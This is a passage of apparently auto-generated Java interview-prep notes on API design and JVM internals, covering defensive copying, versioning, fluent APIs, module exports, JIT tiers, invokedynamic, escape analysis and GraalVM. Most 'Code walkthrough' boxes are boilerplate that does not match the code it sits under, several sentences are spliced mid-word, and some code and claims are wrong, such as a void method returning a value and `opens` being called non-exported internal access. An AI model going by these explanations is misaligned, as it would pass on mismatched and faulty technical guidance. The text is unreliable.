    // start() and end() return Instant (immutable) - no copy needed!
}

// Arrays: always copy
class KeyStore {
    private byte[] key;
    public KeyStore(byte[] key) {
        this.key = key.clone(); // copy in
    }
    public byte[] getKey() {
        return key.clone(); // copy out
    }
}
```

> **Code walkthrough:** This Unknown example demonstrates Java API usage. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* The TOCTOU (Time of Check, Time of Use)
attack on the `Period` constructor is a real security vulnerability. Without
defensive copy: a thread modifies `start` after the `after()` check but
before assignment - the stored `start` could violate the invariant. By
copying first, then validating the copies, the attack window closes. This
is Item 50 in Effective Java. The modern answer: design with immutable types
(`Instant`, `LocalDate`, records) everywhere, eliminating the defensive
copy requirement. Arrays are the remaining case: always clone() on input
and output.

---

**Q8 (API versioning): How do you version and evolve a Java API?**

A:
```java
// Strategy 1: Semantic Versioning
// v1.0.0 -> v1.1.0: new methods added (backward compatible)
// v1.1.0 -> v2.0.0: breaking changes (new major version)

// Strategy 2: Method overloading for optional parameters
// Before (Java 8):
void processOrder(Order order) { processOrder(order, false, 30); }
void processOrder(Order order, boolean urgent) { processOrder(order, urgent, 30); }
void processOrder(Order order, boolean urgent, int timeout) { ... }
// All old calls to processOrder(order) still work!

// Strategy 3: Add new interface methods as default
// v1: interface Validator { boolean validate(String s); }
// v2: add validate overload with context (backward compatible)
interface Validator {
    boolean validate(String s); // v1 method

    // v2: default so existing implementations don't break
    default ValidationResult validateWithContext(String s, Context ctx) {
        boolean valid = validate(s);
        return valid ? ValidationResult.ok() : ValidationResult.error("Invalid");
    }
}

// Strategy 4: Deprecation cycle
// v1: public void login(String user, String password) { ... }
// v2 (introduce secure version):
@Deprecated(since="2.0", forRemoval=true)
public void login(String user, String password) {
    login(user, password.toCharArray());
}
public void login(String user, char[] password) { ... } // v2 secure version
// v3: remove login(String, String)

// Strategy 5: API modules (Java 9+)
// module-info.java:
// module com.example.api {
//     exports com.example.api.v1;  // stable API
//     exports com.example.api.v2;  // new API
//     // @deprecated module exports are not yet supported; use package naming
// }
```

> **Code walkthrough:** This Unknown example demonstrates null-safe value wrapping using interface. **KEY MECHANISM:** Optional.of() throws NPE on null; Optional.ofNullable() wraps null safely. **WHY IT MATTERS:** calling get() without isPresent() check produces NoSuchElementException. **TAKEAWAY: prefer orElseThrow() with a meaningful message over bare get().**

*What separates good from great:* The `@Deprecated(forRemoval=true)` pattern
gives library users a structured migration path. Version N: method available,
deprecated with link to replacement. Version N+1: method may be removed
(users get compiler warnings). Version N+2: removed (breakage only for those
who ignored warnings). This is the promise: users have at least one release
cycle to migrate. Real-world example: Spring Framework deprecated the XML
transaction configuration in Spring 5, provided `@EnableTransactionManagement`
as replacement, removed XML support in Spring 6. Users had 7 years of Spring 5
to migrate - no excuses for breaking on Spring 6.

---

**Q9 (Fluent API): How do you design a fluent API?**

A:
```java
// Fluent API: method chaining for readable code
// Key: each method returns 'this' (or appropriate type)

// Criteria API example (fluent query builder):
List<User> result = em.criteriaQuery(User.class)
    .where(cb.and(
        cb.equal(root.get("status"), "ACTIVE"),
        cb.greaterThan(root.get("age"), 18)
    ))
    .orderBy(cb.asc(root.get("name")))
    .setMaxResults(100)
    .getResultList();

// Custom fluent validator:
ValidationResult result = Validator.of(userInput)
    .notNull()
    .length(2, 100)
    .matches("[a-zA-Z ]+")
    .noSqlInjection()
    .validate();

class Validator<T> {
    private final T value;
    private final List<String> errors = new ArrayList<>();

    static <T> Validator<T> of(T value) { return new Validator<>(value); }

    Validator<T> notNull() {
        if (value == null) errors.add("must not be null");
        return this; // returns this for chaining
    }

    Validator<String> length(int min, int max) {
        String s = (String) value;
        if (s != null && (s.length() < min || s.length() > max))
            errors.add("length must be " + min + "-" + max);
        return (Validator<String>) this;
    }

    ValidationResult validate() {
        return errors.isEmpty()
            ? ValidationResult.ok()
            : ValidationResult.errors(errors);
    }
}
```

> **Code walkthrough:** This Unknown example demonstrates Java API usage using generic type. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* Fluent APIs must be careful about type
safety with generics. The type parameter tracks what you're building:
`Validator<String>` vs `Validator<Integer>`. When methods apply only to
specific types (like `length(min, max)` only for strings), the API should
guide callers via the type system. Java's Stream API does this: `IntStream`
for int-specific operations, `Stream<T>` for generic. The downside of fluent
APIs: debugging (chained NPEs have ambiguous stack traces), and threading
(`return this` is fine as long as the builder/fluent object is single-threaded).

---

**Q10 (Parse don't validate): Explain the "parse, don't validate" principle.**

A:
```java
// WRONG: validate then use (validation leaks everywhere)
class UserService {
    void register(String email, String name) {
        if (!isValidEmail(email)) throw new IllegalArgumentException("...");
        // But what if someone calls userRepo.save(new User(email, name)) directly?
        // They might skip the validation!
    }
}
// Validation at every entry point vs:

// RIGHT: parse into domain type at the boundary
class UserService {
    void register(Email email, UserName name) {
        // Email and UserName are ALWAYS valid: constructed via parsing
        userRepo.save(new User(email, name)); // type-safe, no runtime checks
    }
}

// Parse at the boundary (REST controller):
@PostMapping("/users")
User register(@RequestBody RegisterRequest req) {
    Email email = Email.of(req.email()); // throws 400 if invalid
    UserName name = UserName.of(req.name()); // throws 400 if invalid
    return userService.register(email, name);
}

// Domain types enforce invariants:
record Email(String value) {
    static final Pattern PATTERN = Pattern.compile("^[^@]+@[^@]+\\.[^@]{2,}$");
    Email {
        Objects.requireNonNull(value);
        if (!PATTERN.matcher(value).matches())
            throw new IllegalArgumentException("Invalid email: " + value);
        value = value.strip().toLowerCase(Locale.ROOT); // normalize
    }
}

// Benefits:
// 1. Validation logic is in ONE place (Email class)
// 2. Method signatures declare intent: (Email, UserName) vs (String, String)
// 3. Impossible to pass invalid data to internal methods
// 4. IDE auto-complete shows you need an Email, not any String
```

> **Code walkthrough:** This Unknown example demonstrates exception handling. **KEY MECHANISM:** the JVM checks catch clauses in order; finally always executes for cleanup. **WHY IT MATTERS:** swallowing exceptions silently hides failures that corrupt downstream state. **TAKEAWAY: log or rethrow every exception; empty catch blocks are defects.**

*What separates good from great:* "Parse, don't validate" is a Haskell/functional
programming concept translated to Java. The type system becomes your validation
layer: if a method signature says `Email`, it's impossible to pass a String
without going through `Email.of()`. This eliminates entire classes of bugs
(passing name where email was expected) and eliminates redundant validation
in service layers. The pattern scales: `UserId(Long)`, `Amount(BigDecimal)`,
`PhoneNumber(String)`, `URL(String)`. Each wraps a primitive with invariant
enforcement. Modern Java with records makes this cheap to create:
`record Email(String value) { Email { /* validate */ } }`.

---

**Q11 (Minimal surface area): Why is minimal API surface area important?**

A:

```java
// BAD: anti-pattern - see GOOD example below for the correct approach
// This naive implementation ignores thread safety and error handling
```

```java
// Every public method is a commitment: never break it, always maintain it

// BAD: exposing implementation details (too large surface area)
class Cache<K, V> {
    public HashMap<K, V> getInternalMap() { ... } // exposes HashMap!
    public void rehash() { ... } // internal operation, exposed!
    public int getLoadFactor() { ... } // implementation detail
    // Callers depend on these -> can NEVER change internal implementation
}

// GOOD: minimal surface area
class Cache<K, V> {
    public V get(K key) { ... }
    public void put(K key, V value) { ... }
    public void evict(K key) { ... }
    public int size() { ... }
    // Internal: HashMap, rehash, load factor are implementation details
    // Can swap to Caffeine, Redis, Guava cache without breaking callers
}

// Rule of minimal API: "When in doubt, leave it out"
// (Bloch, Effective Java Item 56)
// An omitted method can be added later (backward compatible)
// An exposed method can NEVER be removed (backward breaking)

// Information hiding levels:
// private:   implementation only (free to change)
// package:   module-internal API (change within module)
// protected: API for subclasses (semi-committed)
// public:    full commitment (never break this)
```

> **Code walkthrough:** BAD pattern: This Unknown example demonstrates Java API usage. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **WHAT BREAKS: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* The Java platform failed this principle
with `sun.misc.Unsafe` - it was internal but effectively became a public
API because it leaked through. Java 9's module system was partly about
reclaiming internal APIs that had become de-facto public. For library
authors: use module-info.java to separate public API packages from internal
packages. `exports com.mylib.api;` - public. `opens com.mylib.internal;` -
internal (not exported). This is the architectural enforcement of information
hiding that `private` fields provide at the class level.

---

**Q12 (Java module system for API): How does the Java module system
help enforce API boundaries?**

A:
```java
// module-info.java: defines API contract explicitly
module com.example.library {
    // Public API: all types in this package are accessible
    exports com.example.library.api;

    // Internal implementation: not accessible to outside modules
    // (NOT exported: com.example.library.internal)
    // (NOT exported: com.example.library.util)

    // Allow reflection by specific consumers (e.g., Spring):
    opens com.example.library.api to com.fasterxml.jackson.databind;

    // Dependencies:
    requires java.base;             // implicit (always required)
    requires java.logging;          // java.util.logging
    requires transitive java.sql;   // transitive: consumers also get java.sql
}
```

> **Code walkthrough:** This Unknown example demonstrates Java API usage using Kafka messaging. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* The module system changes API design
from a convention (Javadoc @internal, package naming) to an enforcement
mechanism. Before modules: `class InternalHelper` marked with `// not for
public use` - callers used it anyway. After modules: `com.example.internal`
package not exported - calling from outside the module: `IllegalAccessError`.
Spring Framework 6 is modularized (though "automatic modules" for now).
Libraries like Guava's `@Beta` and `@VisibleForTesting` are conventional;
module exports are enforceable. For new library projects targeting Java 11+:
module-info.java is the recommended practice for clear API boundaries.

---

### ⚖️ Comparison Table

| Design Decision | Option A | Option B | When to Choose |
|---|---|---|---|
| Construction | Constructor | Static factory | 4+ params or needs naming: factory |
| Complex objects | Telescoping constructors | Builder | 4+ optional params: builder |
| Mutability | Mutable (ArrayList) | Immutable (List.of()) | Default immutable, mutable for perf |
| Exception type | Checked (IOException) | Unchecked (RuntimeException) | Caller can recover: checked |
| Interface evolution | Add abstract method | Add default method | Evolution: default |
| API protection | package-private | module exports | Library: module |

---

### 🏛️ System Design

**Design: public Java library API with versioning strategy**

```
Library: com.example:user-validation:1.0

Public API (exported module packages):
  com.example.validation.api:
    - Email (value object, immutable, parse-don't-validate)
    - PhoneNumber (value object)
    - Validator<T> (fluent builder)
    - ValidationResult (sealed: Valid | Invalid(errors))

Internal (not exported):
  com.example.validation.internal:
    - PatternCache (thread-safe Pattern compilation cache)
    - I18nMessages (locale-specific error messages)
    - PhoneNumberNormalizer (phone formatting logic)

Evolution strategy:
  v1.0 -> v1.1:
    - Add new default methods to Validator<T>
    - Add new static factory methods to Email
    - Fully backward compatible (no MAJOR bump)

  v1.1 -> v2.0:
    - Remove deprecated Email(String) constructor (use Email.of(String))
    - Change PhoneNumber.normalize() behavior
    - MAJOR version bump: callers must review migration guide

  module-info.java:
    module com.example.validation {
        exports com.example.validation.api;
        // internal not exported
    }
```



> **Diagram walkthrough:** The module boundary (red/blue line) separates
> what consumers can see from internal implementation details. The `Client`
> accesses only the public API module. `Email` and `Validator` are the
> entry points. `ValidationResult` (sealed) ensures exhaustive handling.
> Internal utilities (`PatternCache`, `I18nMessages`) are invisible to
> consumers - they can be changed, optimized, or replaced between versions
> without breaking callers. The `module-info.java` `exports` statement
> is the single source of truth for the API boundary.

---

### 📊 Diagram

**API design decision tree:**

```
New type to expose?
  |
  +---> Is it a data carrier (DTO, value object)?
  |       YES -> record (Java 16+) or immutable class
  |       NO  -> regular class
  |
  +---> Does it have variants?
  |       YES, closed set -> sealed interface + records
  |       YES, open set   -> interface or abstract class
  |       NO              -> final class
  |
Construction method?
  |
  +---> 1-3 required params, no optionals -> Constructor
  +---> Named creation or subtypes needed  -> Static factory
  +---> 4+ params, many optional          -> Builder
  +---> Always the same instance          -> getInstance() / enum
```



> **Diagram walkthrough:** The decision tree captures the key API design
> choices: data carrier vs behavior carrier, closed vs open hierarchy,
> and construction method. Records handle the data carrier case concisely.
> Sealed interfaces handle closed hierarchies with compiler-verified
> exhaustiveness. The construction decision (Constructor vs Factory vs Builder)
> depends on parameter count and whether named construction adds clarity.
> Following this tree consistently produces an API where: immutable data
> uses records, closed hierarchies use sealed types, complex objects use
> builders - matching modern Java best practices.

---

# Java Core - L6 Theory

## JVM Bytecode and Compilation Model

---

### 🎯 Model Answer

**30 seconds:**
> Java compiles source to platform-independent bytecode (`.class` files).
> The JVM interprets bytecode OR compiles it to native machine code via JIT
> (Just-In-Time) compilation. The JIT has two tiers: C1 (client, fast compile,
> less optimization) and C2 (server, slower compile, maximum optimization).
> Methods get JIT-compiled when they become "hot" (called frequently).
> `javap -c` disassembles bytecode. Key bytecode instructions: `invokevirtual`
> (virtual dispatch), `invokeinterface` (interface dispatch), `invokestatic`,
> `invokedynamic` (lambdas, method handles). The JVM spec defines these
> precisely; implementations vary.

**3 minutes (Senior):**
> The JVM verifies bytecode before execution: type safety checks prevent
> illegal casts, stack underflows, illegal memory access. This "trusted
> sandbox" is what makes JVM security work. Bytecode is loaded by
> ClassLoaders into the method area (Metaspace in Java 8+).
>
> JIT compilation flow: interpretation (tier 0) -> profiling (C1, tier 2)
> -> C2 optimization (tier 4). The JIT collects type profiles: "at this
> call site, the method is always called on ArrayList". This enables
> speculative optimization: inline the ArrayList method directly (removes
> virtual dispatch overhead). If the profile is wrong (a LinkedList arrives):
> deoptimize, return to interpreter. This "speculative compilation" is why
> JVM benchmarks need warm-up time.
>
> `invokedynamic` (Java 7, heavily used in Java 8): the JVM calls a
> "bootstrap method" the FIRST time a call site is encountered to
> determine the actual method to call. Lambdas use `invokedynamic` +
> `LambdaMetafactory` to create functional interface instances efficiently
> (no anonymous class per lambda site after warmup).

**Framework:** WHAT → WHY → HOW → TRADE-OFF → EXAMPLE

**Blank Mind Recovery:**

**(1) Restate:** "JVM bytecode - let me cover the class file format,
key opcodes, JIT compilation tiers, hotspot profiling, invokedynamic, and
GraalVM AOT."

**(2) First principles:** "Java needs a platform-independent executable.
Bytecode is the platform-independent form. The JVM adapts it to whatever
CPU is running. JIT gets the best of both: write once, run fast anywhere."

**(3) Bridge:** "Bytecode is like IKEA flat-pack furniture instructions.
Platform-independent (instructions work whether assembled in Sweden or USA).
JIT compilation is the local warehouse that pre-assembles popular items
(hot methods) for you - faster to deliver, but first customer waits a bit."

---

### 📘 Concept Explanation

**Class file structure:**
```
.class file:
  - Magic number: 0xCAFEBABE (4 bytes)
  - Major/minor version (class file format version)
  - Constant pool (literals, class/method/field references)
  - Access flags (public, final, interface, abstract, etc.)
  - This class, superclass
  - Interfaces implemented
  - Fields (name, descriptor, access flags)
  - Methods (name, descriptor, bytecode, max_stack, max_locals)
  - Attributes (LineNumberTable, LocalVariableTable, SourceFile, etc.)
```

> **Code walkthrough:** This L6 Theory example demonstrates a key concept in practice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

**Key bytecodes (opcodes):**
```
Stack operations: iconst_0 (push 0), ldc "hello" (push constant from pool)
Arithmetic:       iadd, isub, imul, idiv (int operations)
Object creation:  new, newarray, anewarray
Fields:           getfield, putfield, getstatic, putstatic
Method calls:     invokevirtual, invokeinterface, invokestatic, invokespecial, invokedynamic
Control flow:     if_icmplt, goto, tableswitch
Returns:          ireturn, areturn, return (void)
Type conversions: i2l (int to long), checkcast, instanceof
```

> **Code walkthrough:** This L6 Theory example demonstrates a key concept in practice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

---

### 💻 Code Example

> **Code walkthrough:** Reading bytecode via `javap -c -verbose` is a practicalice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**
> debugging skill. The `invokevirtual` vs `invokeinterface` distinction matters
> for understanding why interface calls historically had a small overhead: JVM
> must search the interface method table (itable) rather than use a fixed offset
> in the class vtable. Modern JVMs optimize this with inline caches.

```java
// Source:
class Counter {
    private int count = 0;
    void increment() { count++; }
    int get() { return count; }
}

/* javap -c Counter.class output (simplified):
  void increment();
    Code:
       0: aload_0          // push 'this'
       1: dup              // duplicate 'this' reference
       2: getfield #2      // Field count:I (push count value)
       5: iconst_1         // push 1
       6: iadd             // count + 1
       7: putfield #2      // Field count:I (store result)
      10: return
*/

// Lambda bytecode: invokedynamic
Runnable r = () -> System.out.println("hello");
/* bytecode:
   0: invokedynamic #2, 0  //InvokeDynamic #0:run:()Ljava/lang/Runnable;
   // Bootstrap: LambdaMetafactory.metafactory(...)
   // First call: generates a class that implements Runnable
   // Subsequent calls: reuse the generated class (or instance if stateless)
*/

// Viewing bytecode:
// $ javap -c -verbose ClassName.class
// Or in code:
byte[] bytecode = getClass().getResourceAsStream("Counter.class").readAllBytes();
// Use ASM library to read/modify bytecode programmatically:
ClassReader cr = new ClassReader(bytecode);
ClassWriter cw = new ClassWriter(ClassWriter.COMPUTE_FRAMES);
cr.accept(new ClassVisitor(Opcodes.ASM9, cw) {
    @Override
    public MethodVisitor visitMethod(int access, String name, String desc,
                                     String signature, String[] exceptions) {
        MethodVisitor mv = super.visitMethod(access, name, desc, signature, exceptions);
        if ("increment".equals(name)) {
            // Wrap with timing instrumentation:
            return new TimingMethodVisitor(mv);
        }
        return mv;
    }
}, 0);
byte[] instrumentedBytecode = cw.toByteArray();
```

> **Code walkthrough:** The `aload_0` loads `this` (local variable 0)ice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**
> onto the operand stack. `dup` duplicates it so it can be used both for
> `getfield` (read `count`) and `putfield` (write `count`). The JVM's
> operand stack is typed (int, long, object reference). The verifier ensures
> types match at every instruction: `iadd` requires two ints, `putfield`
> requires the correct type for the field. This verification runs once at
> class load time; subsequent executions trust the bytecode is valid.

---

### 🎯 Interview Deep-Dive

| Question Category | Time to Answer |
|---|---|
| JIT tiers (C1, C2) | 2 minutes |
| invokedynamic and lambdas | 2 minutes |
| Bytecode verification | 2 minutes |
| Escape analysis | 2-3 minutes |
| GraalVM vs JIT | 2 minutes |
| JVM warmup | 2 minutes |
| ASM and bytecode manipulation | 2 minutes |
| Deoptimization | 2 minutes |
| Bytecode vs source debugging | 90 seconds |

---

**Q1 (JIT tiers): How does JVM tiered compilation work?**

A:
```
Tier 0: Interpreter
  - Executes bytecode directly (no compilation)
  - Collects basic call counts + branch statistics

Tier 1: C1 Simple (no profiling)
  - Fast compilation, minimal optimization
  - For methods not needing profiling

Tier 2: C1 Limited Profile
  - C1 with limited profiling (call counts + backedge counts)
  - Identifies hot loop bodies

Tier 3: C1 Full Profile
  - C1 with full profiling (type profiles per call site)
  - "Who is called at this polymorphic site?"

Tier 4: C2 Full Optimization
  - Slow compilation but maximum optimization
  - Uses profiles from tier 3 for speculative inlining
  - Replaces tier 3 compiled version
  - Deoptimization if speculation fails
```

> **Code walkthrough:** This Unknown example demonstrates a key concept in practice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

```java
// Checking JIT compilation activity:
// JVM flag: -XX:+PrintCompilation
// Output: method_name compiler_tier bytecode_size timestamp
// 42    1     3    com.example.App::hotMethod (22 bytes) <- C1, tier 3
// 43    1     4    com.example.App::hotMethod (22 bytes) <- C2, tier 4

// Force compilation at startup (for analysis):
// -Xcomp: compile everything (JIT startup overhead)
// -Xint: interpreter only (no JIT - for comparison)

// Inline cache: JIT inlines the most common virtual method at a call site
// callsite.processOrder(order) -> usually ProcessorImpl.processOrder()
// JIT: if (order instanceof ProcessorImpl) { inlined code } else { slow path }
// Profile reveals: 99.9% of calls use ProcessorImpl -> speculative inline
```

> **Code walkthrough:** This Unknown example demonstrates Java API usage. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* The C2 JIT uses "type profiles" collected
at tier 3: at each virtual call site, the JVM tracks which concrete types
have appeared. If only one type (monomorphic): inline directly (no vtable
lookup). If two types (bimorphic): two inline paths. If three or more: back
to virtual dispatch. This is why Java's virtual dispatch overhead is often
negligible in practice: monomorphic call sites get inlined. Collections
in tight loops (ArrayList vs LinkedList): ArrayList's `get()` is inlined
by C2 after profiling - effectively the same speed as an array access.

---

**Q2 (invokedynamic): How does invokedynamic work for lambdas?**

A:
```
First call of: Runnable r = () -> System.out.println("hi");

1. JVM executes invokedynamic instruction
2. Calls the "bootstrap method": LambdaMetafactory.metafactory(...)
3. Bootstrap method:
   a. Creates a CallSite object (the "link" for future calls)
   b. Generates bytecode at runtime for a class implementing Runnable
      (only if the lambda captures variables; otherwise, stateless singletons)
   c. Returns a MethodHandle that creates Runnable instances

4. CallSite is cached: subsequent invocations reuse the linked MethodHandle
5. No anonymous class files generated at COMPILE time (vs Java 7 and earlier)
   -> no $1.class, $2.class files in the jar

Performance:
  - First call: expensive (bootstrap, code generation, class loading)
  - Subsequent calls: near-zero overhead (inlineable MethodHandle)
  - Stateless lambdas: singleton (one instance ever)
```

> **Code walkthrough:** This Unknown example demonstrates a key concept in practice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

```java
// Stateless lambda: singleton (no capture)
Runnable r = () -> System.out.println("hi"); // ONE instance, reused
Runnable r2 = () -> System.out.println("hi"); // may be same instance!

// Capturing lambda: new instance per call (captures local variable)
String message = "hello";
Runnable r = () -> System.out.println(message); // captures message
// New Runnable instance for each call to this code with different message
```

> **Code walkthrough:** This Unknown example demonstrates Java API usage. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* The lambda as `invokedynamic` decision
was made to future-proof the JVM: the bootstrap method determines at runtime
how to implement the functional interface. Today: anonymous inner class
bytecode. Future: if the JVM adds value types (Project Valhalla), lambda
objects could become value types (no heap allocation). The `invokedynamic`
indirection allows the JVM to change the implementation strategy without
changing the bytecode. This is the same reason Java 9's `StringConcatFactory`
replaced `StringBuilder`-based concat for `+`: `invokedynamic` lets the JVM
optimize string concatenation via intrinsics without changing source code.

---

**Q3 (Escape analysis): What is escape analysis and how does it help?**

A: Escape analysis determines whether an object's reference "escapes" the
method that creates it. If it doesn't escape: the JVM can stack-allocate it
(no heap, no GC).

```java
// Escape analysis opportunity:
void processPoint() {
    Point p = new Point(3.0, 4.0); // does p escape this method?
    double dist = Math.hypot(p.x(), p.y()); // no: p used only here
    return dist;
    // After escape analysis: JVM may eliminate the allocation entirely
    // (scalar replacement: treat p.x and p.y as local variables)
}

// No escape: object stays local
// -> JVM: stack-allocate OR scalar replace (expand fields as locals)
// -> No GC pressure, no heap allocation

// Escape example:
Point createPoint() {
    Point p = new Point(3.0, 4.0);
    return p; // p ESCAPES: caller has reference
    // -> MUST heap-allocate
}

// Enabling escape analysis (default in Java 6+):
// -XX:+DoEscapeAnalysis (default on)
// -XX:+EliminateAllocations (scalar replacement, default on)

// Checking: -XX:+PrintEliminateAllocations
// Useful for tight loops that create many temporary objects:
// Stream operations creating intermediate Optional/Iterator objects
// may be eliminated by EA if they don't escape

// Lock elision (related): if a synchronized object doesn't escape,
// the JVM can remove the locking entirely (no contention possible)
synchronized(localObject) { // localObject never shared -> lock elided!
    // do work
}
```

> **Code walkthrough:** This Unknown example demonstrates mutex locking using concurrency primitive. **KEY MECHANISM:** the JVM acquires the intrinsic lock on the object monitor before entering the block. **WHY IT MATTERS:** a thread holding the lock blocks all other threads - a bottleneck at scale. **TAKEAWAY: prefer ReentrantLock or ConcurrentHashMap over synchronized for hot paths.**

*What separates good from great:* Escape analysis explains why Stream
pipelines on small datasets are often faster than expected despite creating
many intermediate objects (`Optional`, `Spliterator`, lambda instances).
If these don't escape (common in functional pipelines consumed immediately),
the JVM eliminates the allocations. Benchmarking tip: `-XX:-DoEscapeAnalysis`
disables it - compare with and without to quantify EA's contribution. In
practice: EA reliably handles small, local-scope objects. Large or complex
object graphs where references cross method boundaries: less effective.
Microbenchmarks for "does X allocate?" need `Blackhole.consume()` to prevent
dead code elimination from obscuring the result.

---

**Q4 (GraalVM vs JIT): How does GraalVM differ from the standard HotSpot JIT?**

A:

| Aspect | HotSpot (C2 JIT) | GraalVM JIT | GraalVM Native Image |
|---|---|---|---|
| Written in | C++ | Java | Java (AOT) |
| Compilation | Runtime (JIT) | Runtime (JIT) | Build time (AOT) |
| Startup | Slow (interpret first) | Same as JIT | Milliseconds |
| Peak throughput | Excellent (after warmup) | Better than C2 | Lower than JIT |
| Optimization | Speculative | Better inlining | Static analysis |
| Reflection | Dynamic | Dynamic | Needs config |
| Dynamic classloading | Yes | Yes | No (static) |
| Memory | Higher heap | Similar | Lower footprint |

```java
// GraalVM uses Java: community can contribute JIT optimizations
// C2 is C++ black box: only JDK team can modify

// Native Image use case: serverless (AWS Lambda)
// Cold start: Standard JVM = 2-5 seconds, Native Image = 50-200ms
// This is why Quarkus, Micronaut use Native Image by default

// GraalVM Polyglot: run JS, Python, R from Java
import org.graalvm.polyglot.*;
try (Context ctx = Context.create()) {
    Value result = ctx.eval("js", "1 + 1");
    System.out.println(result.asInt()); // 2
    // JavaScript runs in the same JVM process with zero copy
}

// Profile-guided optimization (PGO) for Native Image:
// 1. Run with instrumented image: --pgo-instrument
// 2. Generate profile from production-like traffic
// 3. Build optimized image: --pgo=profile.iprof
// Result: AOT performance closer to JIT peaks
```

> **Code walkthrough:** This Unknown example demonstrates exception handling. **KEY MECHANISM:** the JVM checks catch clauses in order; finally always executes for cleanup. **WHY IT MATTERS:** swallowing exceptions silently hides failures that corrupt downstream state. **TAKEAWAY: log or rethrow every exception; empty catch blocks are defects.**

*What separates good from great:* The JIT vs Native Image trade-off is
deployment context-dependent. Long-running services (application servers,
APIs): JIT wins (C2 specialization surpasses AOT peaks after 1-5 minutes
of warmup). Serverless, CLI tools, short-lived containers: Native Image
wins (50ms startup vs 5s). GraalVM CE vs Enterprise: Enterprise has
better escape analysis, better C2 replacement, and PGO support. For
production Kafka consumers: JIT-warmed JVM is better. For AWS Lambda:
Native Image is better. The JVM is converging toward both: Project Leyden
(JEP 491) aims to bring CDS and ahead-of-time class loading to HotSpot,
reducing JVM warmup time without full AOT.

---

**Q5 (Bytecode manipulation): When is bytecode manipulation used?**

A:
```java
// Use cases:
// 1. Agents (profiling, APM): add timing around every method
// 2. AOP weaving (AspectJ compile-time or load-time)
// 3. Mocking frameworks (Mockito): generate mock subclasses at runtime
// 4. ORM lazy loading (Hibernate, Byte Buddy): bytecode-enhanced entity classes
// 5. Serialization libraries (Kryo, FST): generate fast serializers
// 6. Code coverage (JaCoCo): add branch tracking instructions

// ASM: low-level bytecode library
// Byte Buddy: high-level API built on ASM
// cglib: older, built on ASM

// Byte Buddy example: runtime subclass generation
Class<? extends UserService> dynamicType = new ByteBuddy()
    .subclass(UserService.class)
    .method(named("findUser"))
    .intercept(MethodDelegation.to(UserServiceInterceptor.class))
    .make()
    .load(getClass().getClassLoader())
    .getLoaded();
UserService proxy = dynamicType.getDeclaredConstructor().newInstance();
// proxy.findUser() -> UserServiceInterceptor handles it

// Java agent (JVMTI + Instrumentation API):
// -javaagent:my-agent.jar
// Agent can transform classes at load time:
public static void premain(String args, Instrumentation inst) {
    inst.addTransformer(new ClassFileTransformer() {
        @Override
        public byte[] transform(ClassLoader loader, String className,
                                Class<?> redefiningClass,
                                ProtectionDomain domain, byte[] bytecode) {
            // Add timing to all methods in com/example/ classes
            if (!className.startsWith("com/example/")) return null; // unchanged
            return addTimingInstrumentation(bytecode); // ASM-based
        }
    });
}
```

> **Code walkthrough:** This Unknown example demonstrates Java API usage using generic type. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* The distinction between compile-time
(AspectJ ctw), load-time (AspectJ ltw, Java agent), and runtime (CGLIB,
Byte Buddy) bytecode manipulation has real implications. Compile-time:
no runtime overhead for code generation, but requires compilation step.
Load-time: agent-based, intercepts all class loads, can instrument
third-party code. Runtime (CGLIB): generates classes dynamically, no
instrumentation step, but only works for non-final classes. Spring's
recommendation: CGLIB for @Transactional (runtime, easy setup), AspectJ ltw
for private method interception (Spring AOP can't do this with proxies).

---

**Q6 (Deoptimization): What is deoptimization in the JVM?**

A: When C2's speculative assumptions are violated (a new type appears at a
previously monomorphic call site), the JVM must "deoptimize":

```
Scenario:
  1. ArrayList get() called 99,999 times -> C2 inlines ArrayList.get() directly
  2. 100,000th call: LinkedList passed to the same call site
  3. Deoptimization: JVM uncommons this case
     a. Invalidates the C2-compiled version
     b. Returns execution to interpreter for the affected frame
